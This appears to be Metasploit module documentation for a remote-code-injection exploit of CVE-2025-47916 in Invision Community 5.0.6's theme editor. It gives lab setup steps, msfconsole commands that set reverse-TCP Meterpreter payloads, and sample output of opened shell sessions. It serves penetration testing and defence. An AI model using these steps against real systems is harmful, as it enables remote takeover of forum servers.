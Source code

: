 ## Vulnerable Application

This Metasploit module exploits a remote-code injection in Invision Community ≤ 5.0.6 via the **theme editor**’s `customCss` endpoint:

* **CVE-2025-47916**: malformed `{expression="…"}` allows evaluation of arbitrary PHP expressions in the `content` parameter.

### To replicate a vulnerable environment

1. **Download the pre-built Docker lab** (includes `Dockerfile`, `docker-compose.yml` and the IPS 5.0.6 application):

```bash
wget https://archive.org/download/ips-5.0.6/IPS-5.0.6.zip -O ips_5.0.6_lab.zip
mkdir ips_5.0.6_lab_dir
unzip ips_5.0.6_lab.zip -d ips_5.0.6_lab_dir
cd ips_5.0.6_lab_dir
```

2. **Bring up the stack**:

```bash
docker-compose up -d
```

3. **Complete the installer** by browsing to [http://localhost:7777](http://localhost:7777).

   * You do **not** need a valid license key; you can enter any text and proceed.
   * Use database host `db`, user `ipsuser`, password `ipspass`, database `ipsdb`.

## Verification Steps

1. **Check the installed version**:

```bash
curl -s http://localhost:7777/admin/install/eula.txt | head -n5
```

Expected output:

```
=============================[NOTE]=============================
 Buy license at https://invisioncommunity.com/buy/self-hosted/
================================================================
 IPS 5.0.6 (5000074)
=============================[NOTE]=============================
```

2. **In `msfconsole`**, confirm the module’s `check` returns vulnerable:

```bash
use exploit/multi/http/invision_customcss_rce
set RHOSTS 127.0.0.1
set TARGETURI /
check
```

## Options

No option

## Scenarios

### PHP Meterpreter (in-memory)

```bash
use exploit/multi/http/invision_customcss_rce
set TARGET 0
set RHOSTS 127.0.0.1
set TARGETURI /
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

### Command Shell (ARCH_CMD)

```bash
use exploit/multi/http/invision_customcss_rce
set TARGET 1
set RHOSTS 127.0.0.1
set TARGETURI /
set payload cmd/linux/http/x64/meterpreter_reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

## Expected Results

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/invision_customcss_rce) > run http://localhost:7777
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected IPS version: 5.0.6
[+] The target is vulnerable. IPS version 5.0.6 is vulnerable (≤ 5.0.6)
[*] Sending exploit to 127.0.0.1:7777 ...
[*] Sending stage (40004 bytes) to 172.30.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.30.0.3:34414) at 2025-05-20 18:13:55 +0200
[*] Session 9 created in the background.
msf6 exploit(multi/http/invision_customcss_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer    : 01ed59644450
OS          : Linux 01ed59644450 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter_reverse_tcp`:

```plaintext
msf6 exploit(multi/http/invision_customcss_rce) > run http://localhost:7777
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected IPS version: 5.0.6
[+] The target is vulnerable. IPS version 5.0.6 is vulnerable (≤ 5.0.6)
[*] Sending exploit to 127.0.0.1:7777 ...
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.30.0.3:46552) at 2025-05-20 18:11:35 +0200
[*] Session 7 created in the background.
msf6 exploit(multi/http/invision_customcss_rce) > sessions 7
[*] Starting interaction with 7...

meterpreter > sysinfo
Computer     : 172.30.0.3
OS           : Debian 12.10 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
